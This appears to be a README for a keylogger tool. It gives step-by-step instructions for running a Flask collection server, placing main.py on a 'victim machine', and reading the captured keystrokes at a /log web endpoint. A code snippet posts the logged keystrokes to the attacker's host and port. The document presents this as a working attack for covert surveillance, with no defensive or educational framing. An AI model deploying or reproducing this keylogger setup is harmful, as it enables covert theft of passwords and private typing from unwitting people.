 **Setup:**
1) Install Flask server on your host machine : pip install Flask
2) Run the server: python server.py
3) Transfer the main.py to victim machine
4) Run main.py on victim machine : python main.py
5) Accessing the Logs:
To view the logs collected by the server, follow these steps:
Open a Web Browser: Launch your preferred web browser (e.g., Chrome, Firefox, Safari).
Visit the URL: Enter the following URL in the address bar: "http://<hostIP>:<port>/log"
As soon as your victim starts typing your log file on your server will be updated. (if not refresh the page)
----------------------------------------------------------------------------------------------------------------
In the server.py file, you can change the port number to your desired value. For example:
if __name__ == '__main__':
    app.run(host='0.0.0.0', port=4444)

and In the main.py file, update the URL in the requests.post call to match the server's IP address and port number. For example:
**try:
    requests.post('http://<host_ip>:<port_number>/log', data={'log': log_data})**
Replace <host_ip> with the server's IP address and <port_number> with the port number specified in your server.py (e.g., 4444).

